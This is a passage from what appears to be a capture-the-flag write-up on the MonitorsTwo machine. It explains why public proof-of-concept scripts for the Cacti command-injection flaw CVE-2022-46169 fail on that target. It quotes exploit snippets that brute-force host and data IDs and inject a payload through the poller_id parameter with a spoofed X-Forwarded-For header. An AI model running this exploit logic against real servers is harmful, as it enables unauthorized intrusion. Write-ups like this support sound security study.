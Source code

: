 ### Exploit

#### Failures

When MonitorsTwo released, there were a bunch of POC scripts on GitHub
for this vulnerability, and many of them don't work here. For example,
at the time of release for MonitorsTwo, [this
one](https://github.com/N1arut/CVE-2022-46169_POC) doesn't work on this
target. It's because when it does the brute force, it is looking for
`words` that includes `polling_time` and some others, but not `uptime`:



    HEADER = add_header(URL)
    words = ["cpu","cmd.php","polling_time","apache"]

    def finding_id(URL,HEADER):
        print("[*] Brute-Forcing Process Is Running ...")
        last_url = None
        for id in range(1,11):
            for item in range(1,11):
                url_id = URL+f"&poller_id=1&host_id={str(id)}&local_data_ids[]={str(item)}"
                req_id = requests.get(url_id,headers=HEADER,verify=False)
                if any(x in req_id.text for x in words):
                    last_url = URL+f"&host_id={str(id)}&local_data_ids[]={str(item)}&poller_id="
                    print("[*] True Ids Founded")
                    return last_url
        print("[!] Could Not Find Specific Process")
        exit(0)



It turns out that `polling_time` never comes back on MonitorsTwo, and
thus this thinks it's not vulnerable.

[This](https://github.com/sAsPeCt488/CVE-2022-46169) is another that
looked nice, but it's only looking for `cmd.php` in the response:



    for id in range(args.n_ids):
        url = f'{args.target}/remote_agent.php'
        params = {'action': 'polldata', 'host_id': id,
                  'poller_id': payload, 'local_data_ids[]': local_data_ids}
        headers = {'X-Forwarded-For': target_ip}

        r = requests.get(url, params=params, headers=headers)
        if('cmd.php' in r.text):
            print(f"[+] Exploit Completed for host_id = {id}")
            break



It also only brute forces on `host_id`, trying all the `local_data_ids`
at once. The SonarSource article said that was possible, but I'm not
sure it's working here.

The most interesting failure I ran into is the Metasploit module. I'll
set it up, making sure to change the `SRVPORT` from the default 8080
(where I've already got Burp listening) to something else (8000):
